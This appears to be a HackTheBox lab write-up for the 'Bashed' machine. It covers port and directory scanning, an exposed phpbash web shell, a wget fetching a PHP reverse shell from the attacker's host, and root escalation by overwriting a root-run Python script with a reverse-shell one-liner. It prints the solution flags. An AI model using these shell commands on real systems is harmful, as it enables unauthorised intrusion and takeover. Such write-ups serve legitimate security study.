

## Reconnaissance

First we need to scan running services using nmap

```bash
└─$ sudo nmap -sVC -Pn -p- 10.129.96.22 --min-rate=1000 -T4 -oA nmap_results
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 22:21 WIB
Nmap scan report for 10.129.96.22
Host is up (0.047s latency).
Not shown: 65443 closed tcp ports (reset), 91 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.73 seconds

```

### Analyze scan result

- Port 80, running apache web server with version Apache httpd 2.4.18 ((Ubuntu))

### Adding host into /etc/hosts

We want to add the host file into /etc/hosts to make it easier to type

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/bashed]
└─$ sudo nano /etc/hosts                                                    
                                                                                             
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/bashed]
└─$ cat /etc/hosts          
127.0.0.1       localhost
127.0.1.1       hackbox

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.96.22 bashed.htb

```

### Visiting the web server



The website is only showing some article. when we opened the phpbash article, I assumed that there’s phpbash in this website in /uploads/phpbash.php. phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. Unfortunately it is not in /uploads 

### Enumerate directory listing

So we need to enumerate directory using gobuster

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/bashed]
└─$ gobuster dir -u http://bashed.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/]
/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/]
/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/]
/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]
/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/]
/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================

```

There’s /dev path with directory listing vulnerability, it contains what we looking for the phpbash.php


## Foothold


So we got the “shell” but we need to escalate to users, we need to looking something useful.


Found the user that we looking into. You just need go to arrexel’s home directory and we got the user’s flag.

```bash
www-data@bashed:/var/www/html/dev# cd /home/arrexel
www-data@bashed:/home/arrexel# ls
user.txt
www-data@bashed:/home/arrexel# cat user.txt
b177699896f32d3134f3411a71435db4
```

```bash
www-data@bashed:/var/www/html/dev# find / -perm -4000 2>/dev/null
find: '/scripts/test.py': Permission denied
find: '/scripts/test.txt': Permission denied
find: '/root': Permission denied
find: '/home/arrexel/.cache': Permission denied
find: '/lost+found': Permission denied
```

There’s file [test.py](http://test.py) and test.txt that we need to looking forward. But, we can’t see or go to the folder because of limited permission. so in the /etc/passwd there is another user `scriptmanager` and we can run any command using that user.

```bash
www-data@bashed:/# sudo -u scriptmanager ls /
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
scripts
srv
sys
tmp
usr
var
vmlinuz
www-data@bashed:/# sudo -u scriptmanager ls /scripts
test.py
test.txt
```

The [test.py](http://test.py) and test.txt is nothing useful

```bash
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
testing 123!www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

We can use revshell by uploading the shell.php in /uploads directory. 

```bash
www-data@bashed:/var/www/html/uploads# wget 10.10.14.84:8000/shell.php
--2025-10-14 09:22:16-- http://10.10.14.84:8000/shell.php
Connecting to 10.10.14.84:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2586 (2.5K) [application/octet-stream]
Saving to: 'shell.php'

0K .. 100% 408M=0s

2025-10-14 09:22:16 (408 MB/s) - 'shell.php' saved [2586/2586]

www-data@bashed:/var/www/html/uploads# ls
index.html
shell.php
```

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/bashed]
└─$ nc -lnvp 7777
listening on [any] 7777 ...
connect to [10.10.14.84] from (UNKNOWN) [10.129.96.22] 55634
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:25:25 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (836): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/$ ^Z
[1]+  Stopped                 nc -lnvp 7777

┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/bashed]
└─$ stty raw -echo

┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/bashed]
└─$ 
nc -lnvp 7777

www-data@bashed:/$ 
www-data@bashed:/$ 
www-data@bashed:/$ 
www-data@bashed:/$ ls
bin   etc         lib         media  proc  sbin     sys  var
boot  home        lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv      usr
www-data@bashed:/$  

```

## Privilege Escalation

So I’m watching ippsec’s walkthrough. You just need to escalate as scriptmanager by using this command 

```bash
www-data@bashed:/$ sudo -u scriptmanager bash 
scriptmanager@bashed:/$ 

```

As I mentioned previously, there is a Python file in the scripts folder. It turns out that the root is executing the [test.py](http://test.py) continuously. So we can exploit it by replace the test.py using our revshell. The revshell I used like this.

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.84",7778));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")

```

After replacing the [test.py](http://test.py) with our revshell, just wait for a minute then you will got the root.

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/bashed]
└─$ nc -lnvp 7778                                      
listening on [any] 7778 ...
connect to [10.10.14.84] from (UNKNOWN) [10.129.93.190] 54358
root@bashed:/scripts# 
root@bashed:/scripts# cat /root/root.txt
cat /root/root.txt
64a1d4c52462b9f8c6c0c52e1f18355d

```

## Flags

```bash
User's Flag: b177699896f32d3134f3411a71435db4
Root's Flag: 64a1d4c52462b9f8c6c0c52e1f18355d
```